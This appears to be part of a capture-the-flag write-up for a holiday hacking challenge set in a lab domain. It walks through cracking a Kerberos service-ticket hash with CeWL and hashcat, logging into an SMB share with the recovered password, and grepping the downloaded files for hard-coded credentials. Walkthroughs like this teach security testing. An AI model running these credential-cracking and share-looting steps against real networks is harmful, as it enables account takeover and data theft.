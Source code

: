 
### Cracking the TGS hash for elfu.local\elfu_svc to get plaintext password
#### Downloading the OneRuleToRuleThemAll.rule
We have the TGS hash for elfu_svc form previous step. <br>
We copy the has to local kali machine as hash.txt.<br>
We will download OneRuleToRuleThemAll.rule from <a href="https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule" target=_blank>here</a>.<br>

```bash
wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule > OneRuleToRuleThemAll.rule
```

#### Generate the word list
Generate the word list using CeWL with –with-number option so it does not ignore digits. </br>
```bash
cewl --with-numbers https://register.elfu.org/register  > wordlist.txt
```

### Crack the TGS hash using Hashcat
Now we use the OneRuleToRuleThemAll.rule and wordlist.txt with Hashcat. <br>

```bash
hashcat -m 13100 -a 0 hash.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist.txt
```
We have the plaintext password for elfu_svc. <br>
<b>Snow2021!</b>
<img src="../../images/hhc2021/image095.png" alt="drawing" width="1200px"/>

#### Enumerate the file share "elfu_svc_shr" and get hard coded creds for remote_elf in the script
```bash
smbclient \\\\172.17.0.5\\elfu_svc_shr -U=elfu_svc
```
Enter the password “Snow2021!” (Without quotes). <br>
And now we are able to enumerate all the files. <br>
<img src="../../images/hhc2021/image096.png" alt="drawing" width="1200px"/>

Check for any hard coded passwords. <br>
```bash
#Set the prompt Off
prompt OFF
#Download all the files
mget *
#Exit out of the smbclient
exit
#Grep for ConvertTo-SecureString in all the files since you use that on plain text creds to convert to # secure strings
grep -C 2 ConvertTo-SecureString *
```

